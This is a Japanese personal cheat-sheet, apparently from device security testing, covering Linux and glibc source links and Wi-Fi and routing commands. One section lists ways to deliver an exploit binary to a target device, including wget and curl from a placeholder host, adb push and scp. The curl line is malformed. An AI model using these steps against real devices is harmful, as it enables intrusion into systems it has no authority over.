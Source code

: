 ## Linuxソースコード
<details>
<summary>Linuxコマンド</summary>

https://qiita.com/Nao1215/items/770429ada9fb463ae2ef

Ubuntu環境<br>
https://blog.amedama.jp/entry/ubuntu-fetch-cmd-src

</details>

<details>
<summary>Linuxカーネル</summary>

ダウンロード<br>
https://www.atmarkit.co.jp/ait/articles/1703/01/news171.html

ブラウザ<br>
https://code.woboq.org/linux/linux/ <br>
↑定義元とか追えて便利

https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/

</details>

## GLIBC
<details>
<summary>ブラウザ</summary>

手順①：以下サイトにアクセスし、任意のGLIBCバージョンを選択する<br>
https://sourceware.org/git/?p=glibc.git;a=tags <br>

![image](https://user-images.githubusercontent.com/82632174/188454097-62349095-f2b9-49ec-aa7a-ef3c725492fa.png)


手順②：「tree」を押すとディレクトリ一覧が表示される<br>
![image](https://user-images.githubusercontent.com/82632174/188454130-04c6e402-0ae3-4b67-8cd0-0cfc01cac055.png)

	
手順③：任意のフォルダを開き、該当のソースコードを表示する<br>
![image](https://user-images.githubusercontent.com/82632174/188454152-e31f3803-b50e-42ad-a214-2a2aa6100fdb.png)
	
</details>
	
## ネットワーク

<details>
<summary>デフォルトゲートウェイの変更</summary>

手順⓪：既存ルールの確認

```route -n```<br>
![image](https://user-images.githubusercontent.com/82632174/188447642-c5305410-e13a-49cb-97db-751ce9c3e92e.png)<br>
※多分一番上のゲートウェイが優先ゲートウェイ
	
手順①：デフォルトゲートウェイの削除<br>
`route delete default`
	
手順②：デフォルトゲートウェイの追加<br>
`route add default gw [GWのIPアドレス]`
		
https://centos.bungu-do.jp/archives/11
	
</details>

<details>
<summary>攻撃対象ディレクトリにバイナリを転送する</summary>

①wget exmample.com/exploit

![image](https://user-images.githubusercontent.com/82632174/188448560-c6f94713-be85-4ef8-907d-bceb150f9168.png) <br>
※busyboxにも入っているため使用できるケースが多そう(17M Accordの場合)

②curl -o exmample.com/exploit
	
③adb push [exploitバイナリ] [ターゲット端末の任意パス]
	
④scp [exploitバイナリ] username@remote.example.com:/remote/directory <br>
※ターゲット端末上でsshサーバ(sshd)が有効な場合
	
⑤scp username@remote.example.com:/remote/directory/[exploitバイナリ] /local/directory
	
⑥ftp
	
⑦ブラウザ経由でダウンロード
	
⑧Exploitコードの入ったUSBメモリをターゲットに接続し、シェルからアクセス
	
</details>

<details>
<summary>USBディスクリプタを確認</summary>

`lsusb -s [バス番号]:[デバイス番号] -v`<br>
![image](https://user-images.githubusercontent.com/82632174/188449765-391f6628-f370-465f-ba00-34358ed94cc9.png)

	
</details>

<details>
<summary>hostapdの起動</summary>

`hostapd -B [confファイル]`<br>
![image](https://user-images.githubusercontent.com/82632174/188450168-4df8af7c-34b5-49e5-bf4d-b5690d8fee66.png)

※-B: バックグラウンド実行
	
</details>

<details>
<summary>wpa_supplicantの起動</summary>

`wpa_supplicant -i[NIC] -c[configファイル]`<br>
![image](https://user-images.githubusercontent.com/82632174/188450438-cfc58f2e-5bbf-42c2-b930-a6860ac2269e.png)


https://www.atmarkit.co.jp/ait/articles/1601/22/news026.html

※-dオプションをつけるとデバッグ情報を表示できる)
	
</details>

<details>
<summary>コマンドラインでのWi-Fi接続設定</summary>

手順①：/etc/wpa_supplicant/wpa-supplicant.confのssidとpskを接続したAPのものに設定する
![image](https://user-images.githubusercontent.com/82632174/188451174-68f7a8a4-dd94-4c9c-b27f-19b4e198b9f4.png)


手順②：機器をリブートする

https://qiita.com/mym/items/468d2cdb30d756b6df24

</details>

<details>
<summary>dhcpcdの起動</summary>

`dhcpcd`<br>
![image](https://user-images.githubusercontent.com/82632174/188451707-95007776-cf1b-4b5a-95c7-ddffcb2a3404.png)

※wpa_supplicantを起動し、APに接続した状態でdhcpcdを起動するとDHCPリクエストを送信しIPが割り当てられる
	
</details>

<details>
<summary>DNS参照先の確認</summary>

Windowsの場合：<br>
`ipconfig /all`<br>
![image](https://user-images.githubusercontent.com/82632174/188452038-596a1eb3-4cfe-4372-ba8c-4b2927c68811.png)

Linuxの場合：<br>
①/etc/resolv.confの中身<br>
②digのレスポンスの「SERVER:」で表示されるIPアドレス<br>
![image](https://user-images.githubusercontent.com/82632174/188452249-d5ddff83-af2f-4000-a1f2-0223c730eb90.png)

Digコマンドレスポンスの見方:
https://qiita.com/hypermkt/items/610b5042d290348a9dfa
	
</details>
